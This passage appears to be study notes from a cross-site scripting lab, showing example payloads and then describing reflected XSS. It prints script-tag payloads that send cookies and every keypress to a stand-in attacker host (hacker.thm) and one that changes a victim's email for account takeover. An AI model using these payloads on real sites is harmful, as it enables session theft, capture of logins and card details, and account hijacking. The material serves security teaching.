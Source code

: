 ```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
**Key Logger:**  
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This  
could be very damaging if the website the payload was installed on accepted user logins or credit card details.  
  
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
**Business Logic:**  
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function.  
For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:  
  
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.  
  
The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.  
  
*What document property could contain the user's session token?* **document.cookie**  
*Which JavaScript method is often used as Proof Of Concept?* **alert**  
  
  
## Reflected XSS  
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.


Example Scenario:

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.



The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.




The vulnerability can be used as per the scenario in the image below:


Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
